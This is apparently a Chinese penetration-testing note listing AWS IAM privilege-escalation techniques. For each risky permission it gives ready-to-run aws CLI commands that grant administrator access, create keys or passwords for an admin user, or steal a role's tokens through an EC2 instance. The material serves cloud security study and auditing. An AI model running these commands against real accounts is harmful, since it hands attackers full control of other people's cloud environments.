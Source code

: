 	影子管理员Shadow Admin
	一旦您有权访问云用户，您需要查看是否可以升级您的权限。 在云中，权限提升是通过 IAM 完成的，通常是由具有某些权限集的用户引起的。 在 AWS 中，有 21 个公知的 IAM 权限可用于提权。
	● https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/
#### iam:CreatePolicyVersion
	iam:CreatePolicyVersion 权限允许用户创建现有策略的新版本,如果您的用户附加了策略，您可以将“操作”更改为“*”，将“资源”更改为“*”，这样您就可以访问所有内容
	如：
	"Action": "iam:CreatePolicyVersion" 改为"Action": "iam:*"
	"Resource": "arn:aws:iam::*:policy/*"改为"Resource": "*"
	最后，您可以使用以下命令更新您的策略，为您提供管理员级别的访问权限：
> aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/administrator/policy.json –set-as-default
#### iam:SetDefaultPolicyVersion2
	如果管理员不小心赋予了策略过多的权限，他们可能会使用权限较少的版本更新策略。具有 iam:SetDefaultPolicyVersion2 的用户可以选择哪个版本的策略处于活动状态。这允许用户通过激活具有更高权限的旧版本策略来潜在地提升他们的权限。例如，如果策略的版本 1 具有比版本 2 更高的权限，我们可以将策略回滚到版本 1，从而为该用户提供更高的权限，如下所示
	> aws iam set-default-policy-version --policy-arn arn:aws:iam::1231124:policy/VulnerablePolicy --version-id v1
#### iam:PassRole and ec2:RunInstances
	如果用户具有 PassRole 和 RunInstances 权限，他们可以将权限提升到另一个角色。 PassRole 权限允许用户将角色传递给另一个 AWS 资源。请记住，角色可以被认为是机器等资源可以使用的用户，并且具有自己的权限集。接下来，RuneInstances 权限允许我们运行资源，特别是虚拟机 AKA EC2 实例。
	"Action":["iam:PassRole","ec2":RunInstances] 
	首先，您需要找到一个您也想升级的角色。 获得目标角色后，您需要启动一个附加了目标角色的 EC2 实例。 最后通过 SSH 进入 EC2 实例并查询元数据服务以窃取目标的 AWS 令牌。 使用以下命令创建附加了目标角色“admin”的 EC2 实例：
	> aws ec2 run-instances --image-id ami-1de55d875628d2fe0 --instance-type t2.micro --iam-instance-profile Name=admin --key-name "Public" --security-group-ids sg-c91s2ae8 --region us-east-1
	实例启动可能需要几分钟时间，但一旦启动，您可以 SSH 进入并点击元数据服务
#### iam: CreateAccessKey
	iam:CreateAccessKey 权限可用于为其他用户创建访问密钥。访问密钥充当凭据，可用于以用户身份发出命令。
	如果策略的资源部分设置为“*”，同时拥有此权限集，我们实际上可能会危及环境中的每个用户。
	> aws iam create-access-key --user-name admin
	如上所示，我们为管理员用户创建了一个访问密钥。我们所要做的就是导入访问密钥，我们就可以开始了。
#### iam:CreateLoginProfile 
	iam:CreateLoginProfile 权限用于为尚未设置控制台密码的用户创建控制台密码。拥有此权限使攻击者能够
	为目标创建一个密码，该密码可用于通过控制台登录。
	> aws iam create-login-profile --user-name admin --password Password123！ --no-password-reset-required
#### iam:UpdateLoginProfile
	与 iam:CreateLoginProfile 类似，iam:UpdateLoginProfile 允许我们为用户设置控制台密码。唯一的区别是用户必须已经设置了控制台密码。
	> aws iam update-login-profile --user-name admin --password Password234！ --no-password-reset-required
#### iam:AttachUserPolicy
	iam:AttachUserPolicy 权限使用户能够将策略附加到用户。如果将此权限附加到您的用户，您可能会将 AWS 托管 AdministratorAccess 策略附加到您的帐户，从而为您提供对云环境的管理员权限。
	> aws iam attach-user-policy --user-name target_username --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
#### iam:AttachGroupPolicy
	iam:AttachGroupPolicy 权限的工作方式与 iam:AttachUserPolicy 相同，只是您将策略附加到组而不是用户。只需确保您是您附加该策略的组的一部分。
	> aws iam attach-group-policy --group-name target_group --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
#### iam:AttachRolePolicy
	iam:AttachRolePolicy 权限的工作方式与 iam:AttachUserPolicy 和 iam:AttachGroupPolicy 相同，只是您将策略附加到角色。只需确保您的用户能够模拟该角色即可。
	> aws iam attach-role-policy --role-name target_role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
#### iam:PutUserPolicy
	此权限允许您创建或更新内联策略。如果设置了此权限，攻击者可以利用它添加具有访问管理员级别访问权限的策略，如下所示：
![image](/assets/Pentest_Note/master/img/907.png)

	接下来使用以下命令将其作为内联策略添加到目标用户。 执行后，该用户应具有对云环境的管理员级别访问权限
	> aws iam put-user-policy –user-name TARGET_USER –policy-name my_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
#### iam:PutGroupPolicy
	此策略与 iam:PutUserPolicy 权限非常相似，只是它允许您将内联策略添加/更新到组而不是用户。同样，您需要创建一个具有管理员级别访问权限的策略，并将其作为内联策略添加到您的用户有权访问的组中。
	> aws iam put-group-policy –group-name GROUP_NAME –policy-name group_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
#### iam:PutRolePolicy
	同样，此权限与 iam:PutUserPolicy 和 iam:PutGroupPolicy 非常相似。唯一的区别是这使您可以添加/更新角色的内联策略。创建一个管理员级别的策略并将其添加到您可以担任的角色中。
	> aws iam put-role-policy –role-name ROLE_NAME –policy-name role_inline_policy –policy-document ./ADMIN_POLICY_TO_ADD.json
#### iam:AddUserToGroup
	此角色允许您将用户添加到组。攻击者可以通过将其用户添加到具有更高权限的组来滥用这一点。如果有一个具有管理员级别权限的组，请尝试将您的用户添加到其中，如果成功，您的用户也应该具有管理员级别权限。
	> aws iam add-user-to-group –group-name GROUP_NAME –user-name USER_NAME